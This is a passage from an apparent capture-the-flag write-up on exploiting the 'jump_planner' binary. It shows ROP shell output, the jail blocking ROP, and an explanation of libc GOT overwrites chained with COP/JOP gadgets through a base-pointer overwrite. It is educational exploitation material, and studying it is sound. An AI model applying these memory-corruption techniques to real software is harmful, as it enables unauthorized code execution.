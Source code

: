 ## Shell!?

Running the previous code does ROP to system however this is because we are testing without the jail.
```c
[+] Starting local process '/home/chris/ctfs/battelle/pwn/jump_planner': pid 708516
0x3541763f37ef8400
0x7f656e1f0d90
0x7f656e1c7000
[*] Switching to interactive mode
Jumping to Year 0 at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ whoami
chris
$  
```

With the jail enabled we get:
```c
[+] Starting local process './run': pid 708704
0xb8e6f36b565ccf00
0x7f9cbe88ed90
0x7f9cbe865000
[*] Switching to interactive mode
Jumping to Year 0 at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
NO ROPPING!
[*] Got EOF while reading in interactive
$  
```

## Libc GOT chaining

A powerful technique exploiters use its controlling a GOT entry of libc, this is because the libc is typically compiled as `Partial RelRo` and the GOT its `read/writable`.

Because we can not use the `execve` syscall, we can't just overwrite one entry with a `one_gadget` or even the `system` symbol. By overwriting multiple `libc got entries` we can chain them together with `COP/JOP gadgets`.

The first step is to overwrite a `GOT` entry.

### Arbitrary Write

Since we can not overwrite the return address without triggering the qemu jail, the attack must target something else. We can overwrite the `base pointer` with the overflow, so when the manual jump function returns the `base pointer` is under our control. 

In the main function loop, when the manual jump function is selected, the argument passed into manual jump is loaded relative to `rbp` which is the basepointer we control. 

```c
00001932  488d45cc           lea     rax, [rbp-0x34 {var_3c}]
00001936  4889c7             mov     rdi, rax {var_3c}
00001939  e85dfdffff         call    manual_jump
```
